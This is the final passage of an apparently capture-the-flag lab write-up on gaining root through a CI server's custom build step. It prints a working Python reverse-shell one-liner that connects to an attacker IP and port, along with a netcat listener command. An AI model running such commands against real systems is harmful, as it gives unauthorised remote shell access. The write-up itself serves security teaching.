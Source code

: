 ![](16.png)

Press save and skip the next step, then go to build steps.

![](17.png)

Click `Add build step` and select command line.

![](13.png)

Put the following command in the Custom script area:

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

>Don't forget to change the ip address.

Save the changes and setup a listener with `nc -lvnp 9001`.

![](14.png)

Press the run button to receive a reverse shell as root.

![](15.png)

Gongrats, we have finally rooted the machine.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

# References
